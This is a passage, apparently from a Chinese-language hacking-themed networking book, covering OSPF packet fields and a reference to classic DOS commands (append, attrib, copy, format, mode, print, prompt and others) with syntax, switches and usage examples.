- **RN**。指示路由器的网络。
- **IDL**。指定节点 ID 长度。
- **NID**。给出节点 ID。
- **起始范围 1（Start Range 1）**。指示网络 1 范围的起始。
- **D**。指示距离。
- **结束范围 1（End Range 1）**。指定网络 1 范围的结束。

# 开放最短路径优先协议

作为行业标准链路状态协议，开放最短路径优先（OSPF）被归类为具有高级功能的内部网关协议。OSPF 报文格式如 图 6.26 所示；格式字段定义如下：

- **掩码（Mask）**。列出当前接口网络掩码。
- **间隔（Interval）**。给出 Hello 报文的间隔（以秒为单位）。

| 掩码 | 间隔 | 选项 | 优先级 | 死间隔 | DR | BDR | 邻居 |
|---|---|---|---|---|---|---|---|

**图 6.26** OSPF 格式。

- **选项（Opt）**。列出路由器的可选能力。
- **优先级（Priority）**。指示此路由器的优先级；当设置为 0 时，禁用指定能力。
- **死间隔（Dead Interval）**。指定路由器下线间隔（以秒为单位）。
- **DR**。列出当前网络的指定路由器。
- **BDR**。列出当前网络的备份指定路由器。
- **邻居（Neighbor）**。给出参与 Hello 路由器报文传输的路由器 ID。

# 重要命令

本节的材料对于任何渴望成为黑客大师的人都是必不可少的。它涵盖了所有重要的根植于 DOS 命令的各个方面，从黑客历史的开端开始。

首先，请记住，DOS 操作系统充当你与计算机之间的翻译器。该操作系统中的程序允许你与你的计算机、磁盘驱动器和打印机进行通信。当今一些最受欢迎的操作系统运行在 DOS 之上，作为图形用户界面（GUI）前端。这意味着 DOS 帮助你管理程序和数据。一旦你将 DOS 加载到计算机内存中，你的系统就可以加载 GUI 前端，如 Windows，它可以帮助你撰写信件和报告、运行程序以及使用打印机和磁盘驱动器等设备。

本命令部分的内容基于我原始的作品，该作品是在 10 多年前为原始的地下社区编写的，并仅分发给非常精选的一组人员。请注意，其中一些命令自那时起已被阻止和/或移除，因此与不同版本的 GUI 操作系统不兼容。

本节的命令选项包括：

- **驱动器（drive）**。指磁盘驱动器。
- **路径（path）**。指目录名称。
- **文件名（filename）**。指文件，包括任何文件扩展名。
- **路径名（pathname）**。指路径加文件名。
- **开关（switches）**。指示控制 DOS 命令；开关以斜杠（/）开头。
- **参数（arguments）**。提供有关 DOS 命令的更多信息。
- **字符串（string）**。一组字符：字母、数字、空格和其他字符。
- **方括号中的项 []**。指示可选项。不要输入方括号本身。
- **省略号（...）**。指示你可以重复一个项，次数不限。

# 附加（Append）

Append 为数据文件设置搜索路径。

## 语法

首次使用（仅一次）：

```
append [/x] [/e]
```

指定要搜索的目录：

```
append [drive:]path[;[drive:][path]... ]
```

删除附加的路径：

```
append;
```

## 注释

Append 命令仅在该命令首次调用时接受开关。Append 接受以下开关：

- **/x** 扩展数据文件的搜索路径。DOS 首先搜索当前目录中的数据文件。如果 DOS 在那里找不到所需的数据文件，它会搜索附加搜索路径中的第一个目录。如果仍然找不到文件，DOS 将继续到第二个附加目录，以此类推。一旦找到数据文件，DOS 将不会搜索后续目录。
- **/e** 导致将附加的目录存储在 DOS 环境中。


## 追加

你可以通过用分号 (;) 分隔各个路径来指定多个搜索路径。如果你第二次输入带有路径选项的追加命令，DOS 将丢弃旧的搜索路径并使用新路径。如果你不使用选项输入追加命令，DOS 将显示当前的数据路径。如果使用以下命令，DOS 将设置 NUL 数据路径：

```
append ;
```

这意味着 DOS 仅在当前工作目录中搜索数据文件。

### 备注

你可以使用追加命令通过网络来定位远程数据文件。另外请注意以下几点：

- 如果你正在使用 DOS assign 命令，必须先使用 append 命令
- 如果你想为外部命令设置搜索路径，请参阅 path 命令。

### 示例

假设你想访问 B 盘上名为 *letters* 的目录以及 A 盘上名为 *reports* 目录中的数据文件。为此，请使用以下内容：

```
append b:\letters;a:\reports
```

## 分配

该命令将一个驱动器号分配给另一个驱动器。

### 语法

```
assign [x[=]y[... ]]
```

其中 x 是 DOS 当前进行读写的驱动器，而 y 是你希望 DOS 进行读写的驱动器。

### 注释

assign 命令允许你读取和写入除 A 和 B 之外的驱动器上的文件，这对于仅使用这两个驱动器的应用程序非常有用。你无法分配正在被其他程序使用的驱动器，也无法分配未定义的驱动器。不要在驱动器号 x 和 y 后面输入冒号 (:)。

### 示例

要将所有驱动器重置为其原始分配，输入以下内容：

```
assign
```

## 属性

Attrib 显示或更改所选文件的属性。

### 语法

```
attrib [+r] [+a] [drive:]pathname [/s]
```

其中：

- **+r** 设置文件的只读属性。
- **-r** 禁用只读模式。
- **+a** 设置文件的归档属性。
- **-a** 清除文件的归档属性。

### 注释

attrib 命令为文件设置只读和/或归档属性。你可以使用通配符来指定一组文件。Attrib 不接受目录名称作为有效的文件名。驱动器和路径名指定文件或文件的位置。/s 开关将处理所有子目录以及指定的路径。

backup、restore 和 xcopy 命令使用归档属性作为控制机制。你可以使用 +a 和 −a 选项来选择你想要使用 backup /m 命令备份，或使用 xcopy /m 或 xcopy /a 复制的文件。

### 示例

要显示默认驱动器上名为 *report* 的文件的属性，输入以下内容：

```
attrib report
```

## 备份

该命令将一个或多个文件从一块磁盘备份到另一块磁盘。

### 语法

```
backup [drive1:][path]filename] [drive2:] [/s][/m][/a][/f] [/d:date] [/t:time] [/L:[[drive:][path]filename]]
```

其中 drive1 是你想要备份的磁盘驱动器，而 drive2 是保存文件的目标驱动器。

### 注释

backup 命令可以备份不同介质（硬盘和软盘）磁盘上的文件。即使盘面的数量或扇区数不同，Backup 也可以将一个软盘上的文件备份到另一个软盘上。Backup 开关如下：

- **/s** 备份子目录。
- **/m** 仅备份自上次备份以来已更改的文件。
- **/a** 将要备份的文件添加到备份磁盘上已有的文件中。
- **/f** 如果目标磁盘尚未格式化，则对其进行格式化。format 命令必须位于路径中。
- **/d:date** 仅备份在指定日期或之后最后修改的文件。
- **/t:time** 仅备份在指定时间或之后最后修改的文件。
- **/L:filename** 在指定文件中创建备份日志条目。

### 示例

要将目录 `C:\letters\bob` 中的所有文件备份到 A 驱动器中一块空白且已格式化的磁盘中，输入：

```
backup c:\letters\bob a:
```

## 中断

Break 设置 Control-C 检查。

### 语法

```
break [on]
break [off]
```

### 注释

根据你正在运行的程序，你可以使用 Control-C 停止一项活动（例如，停止文件排序）。通常，DOS 会检查你是在从键盘读取还是向屏幕写入时按下了 Control-C。如果你设置 break on，你将把 Control-C 检查扩展到其他功能，例如磁盘读取和写入。

### 示例

要仅在屏幕、键盘和打印机的读取和写入期间检查 Control-C，输入以下内容：

```
break off
```

## 代码页

Chcp 显示或更改 command.com 的当前代码页。

### 语法

```
chcp [nnn]
```

其中 `nnn` 是要启动的代码页。

### 注释

chcp 命令接受两个预置系统代码页之一作为有效代码页。如果选择了未为系统准备的代码页，则会显示错误消息。如果你在没有代码页的情况下输入 chcp 命令，chcp 将显示活动代码页以及系统准备好的代码页。

你可以选择 config.sys 中由 country 命令定义的任何预置系统代码页。有效的代码页有：

- 437 美国
- 850 多语言
- 860 葡萄牙语
- 863 加拿大法语
- 865 北欧语言

### 示例

要将当前屏幕组的代码页设置为 863（加拿大法语），输入：

```
chcp 863
```

## 更改目录 (CD)

该命令将目录更改为不同的路径。

### 语法

```
chdir [path]
cd [path]
```

### 示例

假设你有一个名为 *one* 的目录，其中包含一个名为 *two* 的子目录。要将工作目录更改为 \one\two，输入：

```
cd \one\two
```

返回父目录 (*one*) 的快速方法是输入：

```
cd ..
```

要返回根目录（最高级目录），输入：

```
cd\
```

## 磁盘检查

Chkdsk 扫描指定驱动器中的磁盘以获取信息。

### 语法

```
chkdsk [drive:][pathname] [/f] [/v]
```

### 注释

chkdsk 命令显示磁盘的状态。你应定期在每个磁盘上运行 chkdsk 以检查错误。如果在 chkdsk 后输入文件名，DOS 将显示磁盘和该文件的状态报告。

chkdsk 命令接受以下开关：

- **/f** 修复磁盘上的错误。
- **/v** 在检查磁盘时显示每个目录中每个文件的名称。

### 示例

如果 chkdsk 发现 C 驱动器中的磁盘有错误，并且你想尝试纠正它们，输入以下内容：

```
chkdsk c: /f
```

## 清屏

Cls 清除屏幕。

### 语法

```
cls
```

### 注释

cls 命令清除屏幕，仅留下 DOS 提示符和一个光标。

## 命令

Command 启动命令处理器。

### 语法

```
command [drive:][path]command.com [/e:nnnn] [/p]
[/c string]
```

### 注释

当你启动新的命令处理器时，也会创建新的命令环境。命令处理器加载到内存中，分为两部分：非驻留部分和驻留部分。某些应用程序运行时会用非驻留部分覆盖 command.com 的部分。当这种情况发生时，命令处理器的驻留部分会在磁盘上查找 command.com 文件，以便重新加载非驻留部分。

drive:path 选项告诉命令处理器在哪里查找 command.com。有效的开关是：

- **/e:nnnn** 指定环境大小，其中 nnnn 是以字节为单位的大小。
- **/p** 将二级命令处理器保留在内存中，并且不自动返回到主命令处理器。
- **/c string** 告诉命令处理器执行由 string 指定的命令，然后自动返回到主命令处理器。

### 示例

此命令：

```
command /c chkdsk b:
```

告诉 DOS 命令处理器执行以下操作：

- 在当前程序下启动新的命令处理器。
- 运行命令 chkdsk B:
- 返回到命令处理器。

## 比较

Comp 比较两组文件的内容。

### 语法

```
comp [drive:][pathname1] [drive:][pathname2]
```

### 注释

comp 命令将一个文件或一组文件与第二个文件或一组文件进行比较。这些文件可以位于同一个驱动器或不同的驱动器上。它们也可以位于同一目录或不同的目录中。

如果你不输入路径名选项，comp 将提示你输入。

### 示例

在此示例中，comp 将 C 驱动器当前目录中扩展名为 .wkl 的每个文件与 B 驱动器当前目录中同名（但扩展名为 .bak）的每个文件进行比较。

```
comp c:*.wkl b:*.bak
```

## 复制

该命令将文件复制到另一个位置。它也用于追加文件。

### 语法

要复制：

```
copy [drive:]pathname1 [drive:][pathname2] [/v][/a][/b]
copy [drive:]pathname1 [/v][/a][/b] [drive:][pathname2]
```

要追加：

```
copy pathname1 + pathname2 [...] pathnameN
```


## 注释

`copy` 命令接受以下开关：

-   `/v` 指示 DOS 验证目标磁盘上写入的扇区是否正确记录。
-   `/a` 允许你复制 ASCII 文件。此开关适用于位于该开关之前的文件名以及命令中所有剩余的文件名，直到 `copy` 遇到另一个 `/a` 或 `/b` 开关为止。
-   `/b` 允许你复制二进制文件。此开关适用于位于该开关之前的文件名以及命令中所有剩余的文件名，直到 `copy` 遇到另一个 `/a` 或 `/b` 开关为止。此开关告诉命令处理器读取目录中指定的文件大小的字节数。

## 示例

要将名为 *letter.doc* 的文件从当前工作驱动器目录复制到 C 驱动器上名为 *docs* 的目录，请输入：

```
copy letter.doc c:\docs
```

你还可以通过以下方式将多个文件合并为一个文件：

```
copy *.doc combine.doc
```

这将获取所有扩展名为 .doc 的文件，并将它们合并为一个名为 *combine.doc* 的文件。

## Ctty

Ctty 允许你更改发出命令的设备。

### 语法

```
ctty device
```

其中 *device* 指定你向 DOS 发出命令的设备。

### 注释

如果你想更改正在工作的设备，Ctty 会很有用。字母 tty 代表你的终端——即你的计算机屏幕和键盘。

### 示例

以下命令将所有命令 I/O 从当前设备（控制台）移动到 AUX 端口，例如另一个终端：

```
ctty aux
```

下一个命令将 I/O 移回控制台屏幕和键盘：

```
ctty con
```

## Date

Date 用于输入或更改日期。

### 语法

```
date [mm-dd-yy]
```

### 注释

输入日期时请记得只使用数字。允许的数字为：

-   mm = 1–12
-   dd = 1–31
-   yy = 80–79 或 1980–2079

日期、月份和年份的输入可以用连字符 (-) 或斜杠 (/) 分隔。

### 示例

要显示当前日期，请输入：

```
date
```

当前日期将显示出来，并附带更改日期的选项。如果不想更改显示的日期，只需按回车键即可。

## Del(Erase)

此命令删除（或擦除）由驱动器和路径名指定的所有文件。

### 语法

```
del [drive:]pathname
erase [drive:]pathname
```

### 注释

一旦从磁盘上删除文件，你就无法轻易恢复它。

### 示例

以下操作删除名为 report 的文件：

```
del report
```

假设你有名为 report.jan、report.feb、report.mar、report.apr、report.may 等文件。要全部擦除它们，请输入：

```
del report.*
```

## Dir

Dir 列出目录中的文件。

### 语法

```
dir [drive:][pathname][/p][/w]
```

### 注释

单独输入 `dir` 命令时，它会列出默认驱动器上工作目录中的所有目录项。如果包含驱动器名称，例如 `dir b:`，则会列出指定驱动器磁盘默认目录中的所有项。

`dir` 命令接受以下开关：

-   `/p` 分页模式；当屏幕填满时使目录显示暂停。按任意键继续。
-   `/w` 宽模式；使目录显示填满屏幕，每行最多五个文件。即使整个屏幕填满，这也不会导致暂停。

Dir 列出所有文件及其大小（以字节为单位）以及最后修改的时间和日期。

### 示例

如果你的目录包含的文件数量超过屏幕一次能显示的数量，请输入：

```
dir /p
```

## Diskcomp

Diskcomp 将一个磁盘的内容与另一个磁盘进行对比。

### 语法

```
diskcomp [drive1:] [drive2:] [/1] [/8]
```

### 注释

Diskcomp 执行逐轨道的磁盘对比。它根据源磁盘的格式自动确定每面的数量和每轨道的扇区数量。

`diskcomp` 命令接受以下开关：

-   `/1` 使 `diskcomp` 仅比较磁盘的第一面。
-   `/8` 使 `diskcomp` 仅比较每轨道的前八个扇区。

### 示例

如果你的计算机只有一个软盘驱动器，并且你想比较两个磁盘，请输入：

```
diskcomp a:
```

## Diskcopy

Diskcopy 将一个磁盘的内容复制到另一个磁盘。

### 语法

```
diskcopy [drive1] [drive2:][ /1]
```

其中 `drive1` 是源驱动器，`drive2` 是目标驱动器。

### 注释

`Drive1` 和 `Drive2` 可以是同一个驱动器；只需省略驱动器选项即可。如果目标磁盘未格式化，`diskcopy` 会将其格式化为与源磁盘完全相同的状态。

`diskcopy` 命令接受以下开关：

-   **/1** 允许你只复制磁盘的一面。

### 示例

要将 A 驱动器的磁盘复制到 B 驱动器的磁盘，请输入：

```
diskcopy a: b:
```

## Exe2bin

Exe2bin 将可执行文件转换为二进制格式。

### 语法

```
exe2bin [drive:]pathname1 [drive:]pathname2
```

其中 `pathname1` 是输入文件，`pathname2` 是输出文件。

### 注释

此命令将 .exe 文件转换为二进制格式。如果你未指定 `pathname1` 的扩展名，则默认为 .exe。输入文件被转换为 .bin 文件格式（程序的内存映像），并放置在输出文件 `pathname2` 中。

如果你未指定驱动器名称，`exe2bin` 使用输入文件的驱动器。同样，如果你未指定输出文件名，`exe2bin` 使用输入文件名。最后，如果你未在输出文件名中指定扩展名，`exe2bin` 会给新文件添加 .bin 扩展名。

### 限制

输入文件必须是链接器生成的有效 .exe 格式。文件的驻留部分或实际代码和数据部分必须小于 64 KB，且不能有 STACK 段。

## Exit

此命令退出 `command.com` 程序，并返回到上一级（如果存在的话）。

### 语法

```
exit
```

### 注释

如果你使用 DOS 命令程序启动一个新的命令处理器，你可以使用 `exit` 命令返回到旧命令处理器。

## Fastopen

Fastopen 减少打开经常使用的文件和目录所需的时间。

### 语法

```
fastopen [drive:[=nnn][... ]]
```

其中 `nnn` 是每个磁盘上的文件数量。

### 注释

Fastopen 追踪磁盘上文件和目录的位置以实现快速访问。每次打开文件或目录时，`fastopen` 都会记录其名称和位置。然后，如果由 `fastopen` 记录的文件或目录被重新打开，访问时间将大大减少。

请注意，`fastopen` 需要为它追踪的每个文件或目录位置占用 40 字节的内存。

### 示例

如果你想让 DOS 追踪 C 驱动器上最多 100 个文件的位置，请输入：

```
fastopen c:=100
```

## Fc

Fc 比较两个文件或两组文件，并显示它们之间的差异。

### 语法

对于 ASCII 比较：

```
fc [/a] [/c] [/L] [/LB n] [/n] [/t] [/w] [/nnnn][drive:] pathname1[drive:]pathname2
```

对于二进制比较：

```
fc [/b] [/nnnn] [drive:]pathname1[drive:]pathname2
```

其中 `pathname1` 是你想要比较的第一个文件，`pathname2` 是你想要比较的第二个文件。

### 注释

`fc` 命令接受以下开关：

-   */a* 显示 ASCII 比较的输出。`fc` 不显示所有不同的行，而是仅显示每组差异的起始和结束行。
-   */b* 强制对两个文件进行二进制比较。`Fc` 逐字节比较两个文件，在错配后不尝试重新同步。错配按以下方式打印：
  - `xxxxxxxx: yy zz`
  - 其中 `xxxxxxxx` 是文件开头到这对字节的相对地址。地址从 00000000 开始；`yy` 和 `zz` 分别是来自 `pathname1` 和 `pathname2` 的错配字节。比较 *.exe*、*.com*、*.sys*、*.obj*、*.lib* 或 *.bin* 文件时，*/b* 开关是默认的。
-   */c* 使匹配过程忽略字母的大小写。`Fc` 随后将文件中的所有字母视为大写字母。
-   */L* 以 ASCII 模式比较文件。比较没有 *.exe*、*.com*、*.sys*、*.obj*、*.lib* 或 *.bin* 扩展名的文件时，此开关是默认的。
-   */LB* 将内部行缓冲区设置为 *n* 行。默认长度为 100 行。具有超过此数量连续不同行的文件将中止比较。
-   */n* 显示 ASCII 比较的行号。
-   */t* 不将制表符扩展为空格。默认是将制表符视为八列位置的空格。
-   */w* 使 `fc` 在比较期间压缩空白（制表符和空格）。
-   */nnnn* 指定 `fc` 在发现文件差异后必须匹配的行数。

### 示例

要比较两个名为 *report.jan* 和 *report.feb* 的文本文件，请输入：

```
fc /a report.jan report.feb
```

## Fdisk

Fdisk 配置硬盘以用于 DOS。

### 语法

```
fdisk
```

### 注释


## fdisk

`fdisk` 命令显示一系列菜单，帮助你为 DOS 分区硬盘。使用 `fdisk`，你可以：

- 创建主 DOS 分区。
- 创建扩展 DOS 分区。
- 更改活动分区。
- 删除 DOS 分区。
- 显示分区数据。
- 在具有多个固定磁盘的系统中，选择下一个用于分区的固定磁盘驱动器。

## Find

`Find` 在文件或文件中搜索特定的文本字符串。

### 语法

```
find [/v] [/c] [/n] "string" [[drive:] [pathname] ... ]
```

其中“string”是你想要查找的一组字符。

### 注释

字符串必须用引号括起来。`string` 中的大写字母不会匹配你正在搜索的小写字母。

`find` 命令接受以下开关：

- `/v` 显示所有不包含指定字符串的行。
- `/c` 仅显示每个文件中匹配行的数量。
- `/n` 在每行前加上该文件中的相对行号。

### 示例

以下示例显示文件 `pencil.ad` 中包含字符串“Pencil Sharpener”的所有行：

```
find "Pencil Sharpener" pencil.ad
```

## Format

此命令格式化指定驱动器中的磁盘以接受文件。

### 语法

```
format drive:[/1][/4][/8][/n:xx][/t:yy] [/v][/s]
format drive:[/1][/b][/n:xx][/t:yy]
```

### 注释

在 DOS 可以使用所有“新”磁盘之前，必须使用 `format`。请注意，格式化会销毁磁盘上任何先前存在的数据。

`format` 命令接受以下开关：

- **/1** 格式化软盘的单面。
- **/4** 每道格式化四个扇区。
- **/8** 每道格式化八个扇区。
- **/b** 格式化磁盘，留出足够的空间复制操作系统。
- **/s** 将操作系统文件复制到新格式化的磁盘上。
- **/t:yy** 指定磁盘上的道数。此开关将 3-1/2 英寸软盘格式化为指定的道数。对于 720 KB 磁盘和 1.44 MB 磁盘，此值为 80 (/t:80)。
- **/n:xx** 指定每道的扇区数。此开关将 3-1/2 英寸磁盘格式化为指定的扇区数。对于 720 KB 磁盘，此值为 9 (/n:9)。
- **/v** 促使 `format` 提示你为正在格式化的磁盘输入卷标。卷标识别磁盘，长度最多可为 11 个字符。

### 示例

要格式化 A 驱动器中的软盘并将操作系统复制到其中，请输入：

```
format a: /s
```

## Graftabl

`Graftabl` 允许在图形模式下使用显示适配器时显示扩展字符集。

### 语法

```
graftabl [xxx]
graftabl /status
```

其中 `xxx` 是代码页标识号。

### 注释

有效的代码页（`xxx`）包括：

- 437 美国（默认）
- 850 多语言
- 860 葡萄牙语
- 863 加拿大法语
- 865 北欧语

如果你输入 `graftabl` 命令后跟随 `/status` 开关，DOS 将显示活动字符集。

### 示例

要将图形字符表加载到内存中，请输入：

```
graftabl
```

## Graphics

`Graphics` 允许你在使用彩色或图形监视器适配器时，在打印机上打印图形显示屏。

### 语法

```
graphics [printer] [/b] [/p=port] [/r] [/lcd]
```

其中 `printer` 是以下之一：

- **color1** 使用黑色色带在 IBM 个人计算机彩色打印机上打印。
- **color4** 使用红、绿、蓝和黑（RGB）色带在 IBM 个人计算机彩色打印机上打印。
- **color8** 使用青、洋红、黄和黑（CMY）色带在 IBM 个人计算机彩色打印机上打印。
- **compact** 在 IBM 个人计算机紧凑型打印机上打印。
- **graphics** 在 IBM 个人图形打印机或 IBM Pro 打印机上打印。

### 注释

如果你未指定打印机选项，`graphics` 默认为图形打印机类型。

`graphics` 命令接受以下开关：

- **/b** 以彩色打印背景。此选项对 `color4` 和 `color8` 打印机有效。
- **/p=port** 设置当你按下 Shift-Print Screen 组合键时，`graphics` 输出所在的并口打印机端口。端口可以设置为 1、2 或 3。默认为 1。
- **/r** 以黑白打印。
- **/lcd** 从 IBM PC 便携式计算机上的 LCD（液晶显示器）打印。

### 示例

要在打印机上打印图形屏幕，请输入：

```
graphics
```

## Join

此命令将一个磁盘驱动器联接到一个特定路径。

### 语法

```
join [drive: drivepath]
join drive: /d
```

### 注释

使用 `join` 命令，你不需要给物理驱动器分配单独的驱动器号。相反，你可以用一条路径引用特定驱动器上的所有目录。如果在发出 `join` 命令之前该路径已存在，你可以在联接有效期间使用它。但请注意，如果某个驱动器正被另一个进程使用，则无法联接该驱动器。

如果路径不存在，DOS 将尝试创建具有该路径的目录。在你发出 `join` 命令后，第一个驱动器名称将变得无效；如果你尝试使用它，DOS 将显示“无效驱动器”错误消息。

### 示例

你只能将驱动器与根级目录联接，例如：

```
join d: c:\sales
```

要取消联接，请输入：

```
join drive: /d
```

## Keyb

`Keyb` 加载键盘程序。

### 语法

```
keyb [xx[, yyy,[drive: [path]filename]]]
```

其中：

- xx 是两位国家代码。
- yyy 是定义字符集的代码页。
- filename 是键盘定义文件的名称。

### 注释

此处，`xx` 是以下两位代码之一：

- us 美国（默认）
- fr 法国
- gr 德国
- it 意大利
- sp 西班牙
- uk 英国
- po 葡萄牙
- sg 瑞士德语
- sf 瑞士法语
- df 丹麦
- be 比利时
- nl 荷兰
- no 挪威
- la 拉丁美洲
- sv 瑞典
- su 芬兰

### 注意

你可以在 `autoexec.bat` 文件中包含适当的 `keyb` 命令，这样每次启动 DOS 时就不必手动输入该命令。

### 示例

要使用德国键盘，请输入：

```
keyb gr
```

## Label

`Label` 创建、更改或删除磁盘上的卷标。

### 语法

```
label [drive:][label]
```

其中 `label` 是新的卷标，最多 11 个字符。

### 注释

卷标是你可以为磁盘指定的名称。DOS 在目录列表中显示磁盘的卷标，以显示你正在使用哪个磁盘。

### 备注

你可以使用 DOS `dir` 或 `vol` 命令来确定磁盘是否已有卷标。`Label` 不适用于涉及 `subst` 或 `join` 命令的驱动器。

不要在卷标中使用以下任何字符：

? / \ . , ; : + = [ ] ( ) & ^

### 示例

要为 A 驱动器中包含销售报告的磁盘添加标签，请输入：

```
label a:reportSales
```

## Mkdir (MD)

`Mkdir`（`MD`）创建一个新目录。

### 语法

```
mkdir [drive:]path
md [drive:]path
```

### 注释

`mkdir` 命令允许你创建多级目录结构。

### 示例

如果你想创建一个目录来保存所有文件，请输入：

```
md \papers
```

## Mode

`Mode` 设置设备的操作模式。

### 语法

并口打印机模式：

```
mode LPTn[:] [chars] [, [lines] [, p]]
```

异步通信模式：

```
mode COMn[:] baud [, parity [, databits [, stopbits [, p]]]]
```

重定向并口打印机输出：

```
mode LPTn[:] = COMn[:]
```

显示模式：

```
mode display
mode [display], shift[[,t]]
```

设备代码页模式：

```
mode device codepage prepare =[[,yyy]][drive:][path]filename]
mode device codepage select = yyy
mode device codepage refresh
mode device codepage [/status]
```

### 注释

`mode` 命令为 DOS 与设备（如并口和串口打印机、调制解调器和控制台）进行通信做准备。它还为并口打印机和控制台切换代码页做准备。你还可以使用 `mode` 命令来重定向输出。

### 并口打印机模式

对于并口模式，你可以互换使用 `PRN` 和 `LPT1`。你可以使用 `mode` 命令中的以下选项来设置并口打印机的参数：

- n 指定打印机编号：1、2 或 3。
- chars 指定每行字符数：80 或 132。
- lines 指定垂直间距，每英寸行数：6 或 8。
- p 指定如果发生超时错误，`mode` 会持续尝试向打印机发送输出。此选项会导致 `mode` 程序的一部分驻留在内存中。

默认设置是 `LPT1`，每行 80 个字符，每英寸 6 行。

你可以通过按 Control-Break 来退出超时循环。

### 异步（串行）通信模式

你可以使用 `mode` 命令中的以下选项来设置串口参数：

- m 指定异步通信（`COM`）端口号：1、2、3 或 4。
- baud 指定传输速率的前两位数字：110、150、300、600、1200、2400、4800、9600 或 19,200。
- parity 指定校验：N（无）、O（奇）或 E（偶）。默认是 E。
- databits 指定数据位数：7 或 8。默认是 7。
- stopbits 指定停止位数：1 或 2。如果波特率是 110，默认是 2；否则，默认是 1。
- p 指定 `mode` 正在使用 `COM` 端口作为串行打印机，并且如果发生超时错误会持续重试。此选项会导致 `mode` 程序的一部分驻留在内存中。默认设置是 `COM1`、偶校验和 7 个数据位。

### 显示模式


## 设备代码页模式

您可以使用 mode 命令来设置或显示并行打印机或控制台屏幕设备的代码页。您可以使用以下选项配合 mode 命令来设置或显示代码页：

- **device** 指定支持代码页切换的设备。有效的设备名称为 con、lpt1、lpt2 和 lpt3。
- **yyy** 指定代码页。有效的页码为 437、850、860、863 和 865。
- **filename** 指定 DOS 应为指定设备准备代码页时使用的代码页信息（.cpi）文件的名称。

有四个关键字可以与 mode device codepage 命令一起使用。每个关键字都会使 mode 命令执行不同的功能。以下解释了每个关键字：

- **prepare** 告诉 DOS 为给定设备准备代码页。在您可以使用某个代码页之前，必须先为该设备准备该代码页。
- **select** 指定您想要与设备一起使用的代码页。在选择代码页之前，必须先准备该代码页。
- **refresh** 如果设备的已准备代码页因硬件或其他错误而丢失，此关键字将恢复已准备的代码页。
- **/status** 显示为设备准备的和/或选择的当前代码页。请注意，这两个命令产生的结果是相同的：

```text
mode con codepage
mode con codepage /status
```

## 注意

在代码页模式下，您可以使用以下缩写与 mode 命令配合使用：

- cp codepage
- /sta /status
- prep prepare
- sel select
- ref refresh

## 示例

假设您希望计算机将打印输出发送到串行打印机。为此，您需要使用两次 mode 命令。第一个 mode 命令指定异步通信模式；第二个 mode 命令将计算机的并行打印机输出重定向到第一个 mode 命令中指定的异步通信端口。

例如，如果您的串行打印机以 4800 波特率和偶校验运行，并且连接到 COM1 端口，请输入：

```text
mode com1:48,e,,p
mode lpt1:=com1:
```

如果您希望计算机在连接到计算机第二个并行打印机端口（LPT2）的并行打印机上打印，并且希望每行 80 个字符、每英寸 8 个字符进行打印，请输入：

```text
mode lpt2: 80,8
```

或

```text
mode lpt2:,8
```

## More

More 命令逐屏将输出发送到控制台。

### 语法

```text
more <source
```

其中 source 是文件或命令。

### 示例

假设您有一个名为 *paper.doc* 的长文件，您希望将其显示在屏幕上。以下命令通过 more 命令重定向该文件，以逐屏显示文件内容：

```text
more <paper.doc
```

## Nlsfunc

Nlsfunc 加载特定国家/地区的信息。

### 语法

```text
nlsfunc [[drive:][path]filename]
```

其中 filename 指定包含特定国家/地区信息的文件。

### 注释

filename 的默认值是您的 *config.sys* 文件。如果您的 *config.sys* 文件中没有 country 命令，DOS 将使用根目录中的 *country.sys* 文件获取信息。

### 示例

假设您的磁盘上有一个名为 newcon.sys 的文件，其中包含特定国家/地区的信息。如果您希望使用该文件中的信息，而不是 country.sys 文件中的信息，请输入：

```text
nlsfunc newcon.sys
```

## Path

Path 命令设置通用的搜索路径。

### 语法

```text
path [drive:] [path] [{drive:] [path]... ]
path ;
```

### 注释

path 命令允许您告诉 DOS 在搜索外部命令时应查找哪些目录——在搜索当前工作目录之后。您可以通过指定用分号（;）分隔的多个路径来告诉 DOS 搜索多个路径。

### 示例

以下命令告诉 DOS 搜索三个目录以查找外部命令。路径分别为 \lotus\one、b:\papers 和 \wp：

```text
path \lotus\one;b:\papers;\wp
```

## Print

此命令在您处理其他 DOS 命令时，将文本文件作为后台打印任务进行打印。

### 语法

```text
print [/d:device] [/b:size] [/u:value1] [/m:value2] [/s:timeslice] [/q:qsize] [/t] [/c] [/p] [drive:] [pathname]
```

### 注释

只有当您拥有输出设备（例如打印机或绘图仪）时，才能使用 print 命令。

print 命令接受以下开关：

- **/d:device** 指定打印设备名称。默认为 LPT1。
- **/b:size** 设置内部缓冲区的大小（以字节为单位）。
- **/u:value1** 指定 print 等待打印机的时钟滴答数。值范围为 512 到 16,386。默认值为 1。
- **/m:value2** 指定 print 在打印机上打印一个字符所需的时钟滴答数。值范围为 1 到 255。默认值为 2。
- **/s:timeslice** 指定 DOS 调度程序用于 print 命令的时间间隔。
- **/q:qsize** 指定打印队列中允许的文件数量——如果您希望数量超过 10。值范围为 4 到 32；默认值为 10。若要更改默认值，必须在不指定任何文件名的情况下使用 print 命令；例如：print /q:32。
- **/t** 删除打印队列中的所有文件（即等待打印的文件）。
- **/c** 开启取消模式，并从打印队列中移除前面的文件名及所有后续文件名。
- **/p** 开启打印模式，并将前面的文件名及所有后续文件名添加到打印队列中。

当不带任何选项使用 print 命令时，它会在屏幕上显示打印队列的内容，而不影响队列。

### 示例

以下命令清空名为 LPT1 的设备的打印队列：

```text
print /t /d:lpt1
```

以下命令将文件 *paper.doc* 从默认打印队列中移除：

```text
print a:paper.doc /c
```

## Prompt

Prompt 命令更改 DOS 命令提示符。

### 语法

```text
prompt [[text][$character]... ]
```

### 注释

此命令允许您更改 DOS 系统提示符 (A:\>)。您可以使用 prompt 命令中的字符来创建特殊的提示符：

| 符号 | 描述 |
| :--- | :--- |
| $q | 等号 (=) 字符 |
| $S | 美元符号 ($) 字符 |
| $t | 当前时间 |
| $d | 当前日期 |
| $p | 默认驱动器的当前工作目录 |
| $v | 版本号 |
| $n | 默认驱动器 |
| $g | 大于号 (>) 字符 |
| $l | 小于号 (<) 字符 |
| $b | 管道符 (|) 字符 |
| $_ | 回车换行 |
| $e | ASCII 码 X'1B' (转义) |
| $h | 退格键 |

### 示例

以下命令设置一个两行的提示符，显示当前日期和时间：

```text
prompt time = $t$_date = $d
```

## Recover

此命令恢复包含坏扇区的文件或磁盘。

### 语法

```text
recover [drive:][path]filename
```

或

```text
recover [drive:]
```

### 注释

如果 chkdsk 命令显示磁盘上的某个扇区损坏，您可以使用 recover 命令恢复整个磁盘或仅包含坏扇区的文件。recover 命令使 DOS 逐扇区读取文件，并跳过坏扇区。

### 示例

要恢复 A 驱动器中的磁盘，请输入：

```text
recover a:
```

